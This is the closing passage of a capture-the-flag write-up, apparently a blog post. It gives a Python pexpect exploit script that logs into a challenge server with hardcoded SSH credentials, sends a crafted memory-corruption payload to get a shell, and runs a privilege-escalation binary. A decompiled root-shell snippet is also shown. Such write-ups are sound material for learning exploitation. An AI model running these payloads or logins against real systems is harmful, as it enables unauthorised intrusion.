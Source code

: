 *Call Rare Missle Object handle function

Finally, exploit code :

<pre class="brush: python; title: ; notranslate" title="">from pexpect import spawn
import time

child = spawn('ssh -p 18562 control@59.9.131.155')
child.expect('password')

child.sendline('control porsche')
#child = spawn("./por")

KEY_UP = 'x1b[A'
KEY_DOWN = 'x1b[B'
KEY_RIGHT = 'x1b[C'
KEY_LEFT = 'x1b[D'

child.expect('Console')

child.send(KEY_RIGHT * 9)
child.send(KEY_DOWN * 2)
child.send(" 3")

child.send(KEY_DOWN)
child.send(KEY_LEFT * 6)
child.send(" 1")
child.sendline("x2dx41x41x41" +"x06x01x01x01" + "x06x01x01x01" + 'AAAAx6bx85x04x08'+"C"*28+"x40x89x04x08")

child.send(" ")

child.sendline("echo 'cat /home/admin/StopTheCar'|./PrivilegeEscalation")

child.interact()
</pre>

Actually, after getting the shell, I got a mini heart attack from organizer since the ReadMe file tells this is 2-steps challenge, it needs another local exploit. My team mate @w00d helped me to retrieve the PrivilegeEscalation binary, and it only does one thing:

<pre class="brush: cpp; title: ; notranslate" title="">int __cdecl sub_804844C()
{
  setreuid(0x3E8u, 0x3E8u);
  return system("/bin/bash");
}
</pre>

It really a nice challenge to work with, thanks organizer for awesome binaries, thank all you guys from CLGT CTF team <img src="http://vnsec-new.cloudapp.net/wp/wp-includes/images/smilies/icon_smile.gif" alt=":)" class="wp-smiley" />  
See u in next CTF.